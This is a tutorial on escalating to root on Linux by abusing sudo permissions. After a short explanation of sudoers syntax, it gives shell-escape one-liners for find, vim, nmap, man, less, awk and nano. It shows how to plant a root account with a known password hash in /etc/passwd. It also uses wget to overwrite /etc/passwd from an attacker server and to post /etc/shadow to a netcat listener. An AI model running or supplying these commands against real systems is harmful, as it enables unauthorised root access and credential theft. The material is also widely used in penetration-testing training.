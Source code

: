 ---- Credits to Touhid M.Shaikh ----


Sudoers File

  

SUDOers


    sudo -l
  
Sudoer File Syntax.

  root ALL=(ALL) ALL

Explain 1: The root user can execute from ALL terminals, acting as ALL (any) users, and run ALL (any) command.

The first part is the user, the second is the terminal from where the user can use the sudocommand, the third part is which users he may act as, and the last one is which commands he may run when using.sudo

  user1 ALL= /sbin/poweroff
  
Explain 2: The above command, makes the user user1 can from any terminal, run the command power off using user1’s user password.

  user1 ALL = (root) NOPASSWD: /usr/bin/find
  
Explain 3:  The above command, make the user touhid can from any terminal, run the command find as root user without password.

Exploiting SUDO Users.
To Exploiting sudo user u need to find which command u have to allow.
sudo -l

The above command shows which command have allowed to the current user.


Here sudo -l, Shows the user has all this binary allowed to do as on root user without password.

Let’s take a look at all binary one by one (which is mention in index only) and Escalate Privilege to root user.

Using Find Command
sudo find /etc/passwd -exec /bin/sh \;
or

sudo find /bin -name nano -exec /bin/sh \;
Using Vim Command
sudo vim -c '!sh'
Using Nmap Command
Old way.

  sudo nmap --interactive
  nmap> !sh
  sh-4.1#
  Note : nmap –interactive option not available in latest nmap.

Latest Way without –interactive

echo "os.execute('/bin/sh')" > /tmp/shell.nse && sudo nmap --script=/tmp/shell.nse
Using Man Command
sudo man man
after that press !sh and hit enter

Using Less/More Command
sudo less /etc/hosts
sudo more /etc/hosts
after that press !sh and hit enter

Using awk Command

 sudo awk 'BEGIN {system("/bin/sh")}'
 
Using nano Command
nano is text editor using this editor u can modify passwd file and add a user in passwd file as root privilege after that u need to switch user. Add this line in /etc/passwd to order to add the user as root privilege.

touhid:$6$bxwJfzor$MUhUWO0MUgdkWfPPEydqgZpm.YtPMI/gaM4lVqhP21LFNWmSJ821kvJnIyoODYtBh.SF9aR7ciQBRCcw5bgjX0:0:0:root:/root:/bin/bash

sudo nano  /etc/passwd
now switch user password is : test

su touhid
Using wget Command
this very cool way which requires a Web Server to download a file. This way i never saw on anywhere. lets explain this.

On Attaker Side.

First Copy Target’s /etc/passwd file to attacker machine.
modify file and add a user in passwd file which is saved in the previous step to the attacker machine.
append this line only =>  touhid:$6$bxwJfzor$MUhUWO0MUgdkWfPPEydqgZpm.YtPMI/gaM4lVqhP21LFNWmSJ821kvJnIyoODYtBh.SF9aR7ciQBRCcw5bgjX0:0:0:root:/root:/bin/bash
host that passwd file to using any web server.
On Victim Side.

sudo wget http://192.168.56.1:8080/passwd -O /etc/passwd
now switch user password is : test

su touhid
Note: if u want to dump file from a server like a root’s ssh key, Shadow file etc.

sudo wget --post-file=/etc/shadow 192.168.56.1:8080
Setup Listener on attacker : nc –lvp 8080

Using apache Command
sadly u cant get Shell and Cant edit system files.

but using this u can view system files.

sudo apache2 -f /etc/shadow
Output is like this :

Syntax error on line 1 of /etc/shadow:
Invalid command 'root:$6$bxwJfzor$MUhUWO0MUgdkWfPPEydqgZpm.YtPMI/gaM4lVqhP21LFNWmSJ821kvJnIyoODYtBh.SF9aR7ciQBRCcw5bgjX0:17298:0:99999:7:::', perhaps misspelled or defined by a module not included in the server configuration
Sadly no Shell. But you manage to extract root hash now Crack hash in your machine. For Shadow Cracking click here for more.
